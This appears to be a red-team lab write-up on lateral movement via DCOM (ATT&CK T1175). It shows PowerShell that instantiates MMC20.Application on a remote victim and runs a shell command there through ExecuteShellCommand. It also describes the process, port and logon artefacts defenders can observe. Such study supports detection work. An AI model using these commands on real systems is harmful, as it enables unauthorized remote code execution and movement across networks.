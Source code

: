 ```yaml
---
description: Lateral Movement via Distributed Component Object Model
---
```


# T1175: Lateral Movement via DCOM

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by enima0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing command on the victim system via DCOM object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../.gitbook/assets/dcom-mmc-bind.png)

![](../.gitbook/assets/dcom-listening.png)

![](../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../.gitbook/assets/dcom-logon-event.png)

![](../.gitbook/assets/dcom-connection2.png)

{% embed data="{\"url\":\"https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/\",\"type\":\"link\",\"title\":\"Lateral Movement using the MMC20.Application COM Object\",\"description\":\"For those of you who conduct pentests or red team assessments, you are probably aware that there are only so many ways to pivot, or conduct lateral movement to a Windows system. Some of those techn…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://enigma0x3.files.wordpress.com/2017/01/process\_validation.png\",\"width\":1416,\"height\":598,\"aspectRatio\":0.422316384180791}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand\",\"type\":\"link\",\"title\":\"View ExecuteShellCommand method\",\"description\":\"The ExecuteShellCommand method runs a command in a window. After this method successfully starts the command in a separate process, it returns immediately \(it does not wait for the command to complete\).\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_\",\"type\":\"link\",\"title\":\"Type.GetTypeFromCLSID Method \(System\)\",\"description\":\"Gets the type associated with the specified class identifier \(CLSID\).\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview\",\"type\":\"link\",\"title\":\"COM Technical Overview\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1175\",\"type\":\"link\",\"title\":\"Distributed Component Object Model - ATT&CK for Enterprise\"}" %}

